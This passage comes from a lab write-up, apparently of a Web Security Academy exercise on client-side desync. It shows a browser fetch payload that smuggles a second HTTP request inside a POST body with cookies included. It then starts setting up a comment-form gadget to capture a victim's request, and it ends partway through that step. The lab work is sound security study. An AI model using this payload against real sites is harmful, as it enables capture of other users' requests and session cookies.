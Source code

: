 Create the same behavior we had with Burp in a JS file:

```javascript
fetch("https://0ad0007504e058c7c925f8c3009e0035.h1-web-security-academy.net/", {

method: "POST",

body: "GET /halil HTTP/1.1\r\nX-Ignore: X",

credentials: "include", //with-cookies connection pool

mode: "cors", //make sure the 302 on / is not followed

}

).catch(()=>{

fetch("https://0ad0007504e058c7c925f8c3009e0035.h1-web-security-academy.net/en", {

mode: "no-cors",

credentials: "include"

});

});
```

Open a chrome browser, which has the page loaded and go to the `Network` options. Click the `Preserve logs`.

Then go to the `Console` and paste the js code above, and run it.

We got a `404 Not Found` as shown below:

<img width="837" alt="Pasted_image_20250120094941" src="https://github.com/user-attachments/assets/5cb2e754-48b7-419f-aba0-df768a640fbd" />

And for more details, on the `Network` tab, wee see both requests, one with `302` and one with `404` as in the Burp.

<img width="837" alt="Pasted_image_20250120095031" src="https://github.com/user-attachments/assets/08df1e4d-0533-4116-904b-9e8252e582dd" />

### Find a vulnerable gadget to store our victim's request

In the website, we see some posts where we can add comments. Just add one.

In Burp we see the request to add the comment which is: `POST /en/post/comment HTTP/1.1`.

The body of this request is:

```http
csrf=kBVF187ngft1vzcFHK5gU4IiYssQRZUZ&postId=5&comment=halilWasHere&name=halilWasHere&email=halilwashere%40halil.com&website=https%3A%2F%2Fwww.halil.com
```

Now move the `comment` to the end as we want to make sure that the victim's normal request is gonna come after. And the body will be:
